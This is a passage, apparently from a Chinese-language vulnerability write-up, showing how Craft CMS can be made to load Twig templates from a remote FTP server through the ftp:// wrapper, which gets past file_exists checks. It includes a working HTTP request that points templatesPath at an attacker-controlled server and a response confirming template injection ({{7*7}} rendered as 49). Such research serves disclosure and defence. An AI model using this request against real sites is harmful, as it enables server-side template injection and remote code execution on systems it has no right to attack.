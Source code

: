   
根据 PHP 文档，  
file_exists不支持 http 包装器（它属于  
stat()），因此此检查将始终失败。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeP9TDEP2IEsIN2sibJ29gPniaW5dnVkMKLQdvtfgPu6YicicXcJd10XM6RwQ98kfkMHuj3h6aglgp13A/640?wx_fmt=png&from=appmsg "")  
  
如果您关注当前流行的 PHP 开发趋势，您可能会想知道我们是否可以使用一些  
php://filter技巧，但由于同样的原因，这也不起作用；  
php包装器不支持  
stat()，因此  
file_exists在加载任何内容之前检查总是会失败。  
  
到目前为止，使用包装器的当前障碍是，我们考虑的所有包装器都不支持任何类型的file_exists调用。那么哪些包装器支持这些调用呢？查看受支持包装器的标准列表，并查看每个包装器的文档：  
  
-  
file://支持  
stat()，但这显然没有帮助；  
  
-  
phar://也支持  
stat()，但我们不能轻易地将有效的 PHAR 文件偷运到文件系统中；  
  
-  
ftp://确实支持一些文件系统调用，包括  
file_exists；有趣的......  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeP9TDEP2IEsIN2sibJ29gPno2uolZiawzojUI61aXBJFPkoVBf7d07xaic235icic8h97LPlUAoxytaFQ/640?wx_fmt=png&from=appmsg "")  
  
我们不能使用 FTP 包装器来包含配置文件，因为最终会调用  
includeFTP 包装器，并且会被安全功能阻止  
allow_url_include。但我们可以使用它来包含模板，只需通过简单  
file_get_contents调用即可读取模板。  
  
为了进行测试，如果您请求 Craft CMS 应用程序的根路径，它将尝试加载  
default/index.twig。因此，我们创建了一个允许匿名访问的 FTP 服务器，并提供  
index.twig如下所示的服务：  
  
```
hello world {{7*7}}
```  
  
  
事实上，我们可以看到 Craft CMS 加载了我们提供的文件，包括模板：  
  
```
GET /?--templatesPath=ftp://a:a@our.malicious.server:2121/ HTTP/1.1
Host: localhost:8000

...

HTTP/1.1 200 OK
Server: nginx
Date: Tue, 19 Nov 2024 00:10:50 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Vary: Accept-Encoding
X-Powered-By: Craft CMS
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Referrer-Policy: no-referrer-when-downgrade
Content-Length: 15

hello world 49
```  
  